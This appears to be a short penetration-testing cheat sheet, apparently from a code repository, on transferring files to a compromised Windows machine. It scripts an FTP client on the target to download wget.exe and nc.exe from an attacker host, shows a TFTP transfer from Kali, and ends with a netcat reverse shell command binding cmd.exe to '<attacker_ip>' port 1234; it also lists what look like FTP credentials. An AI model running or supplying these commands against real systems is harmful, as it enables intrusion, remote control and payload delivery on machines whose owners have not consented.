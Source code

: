 #### Set up a ftp downloading script on the target machine
```bash
echo open IP 21 > ftp.txt
echo USER acknak>> ftp.txt
echo jLQRZy4gyLhmMqz2whTw>> ftp.txt
echo ftp >> ftp.txt
echo bin >> ftp.txt
echo GET wget.exe >> ftp.txt
echo bye >> ftp.txt
```

#### Download the prepared file

```bash
ftp -v -n -s:ftp.txt
```

#### Start tftp server on Kali

```bash
aftpd start
```

#### Transfer files from Kali to Windows (from windows terminal)

```bash
tftp -I IPADDRESS GET nameoffile.exe
```

#### You can have a shell using this

```bash
echo open <attacker_ip> 21> ftp.txt
echo USER offsec>> ftp.txt
echo ftp>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
nc.exe <attacker_ip> 1234 -e cmd.exe
```
